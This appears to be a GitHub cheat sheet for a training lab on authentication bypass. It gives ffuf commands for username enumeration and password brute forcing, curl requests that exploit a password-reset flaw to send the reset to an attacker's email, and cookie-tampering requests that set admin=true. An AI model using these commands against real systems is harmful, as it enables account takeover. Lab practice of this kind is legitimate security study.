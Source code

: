 # Authentication-Bypass

# 🤢Username Enumeration
  ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type:       application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
  
# ▶️ Brute Force
  Example1: ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X     POST -d       "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
  Example2: ffuf -w /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -X POST -d "username=steve&     password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.170.164/customers/login -fc 200

# ▶️Logic Flaw 
  i. curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d                 'username=robert'
  ii. curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d                 'username=robert&email=attacker@hacker.com'
  iii. curl 'http://MACHINE_IP/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
  
 # 🍪Cookie Tampering 
  i.  curl http://MACHINE_IP/cookie-test
  ii. curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
  iii. curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test

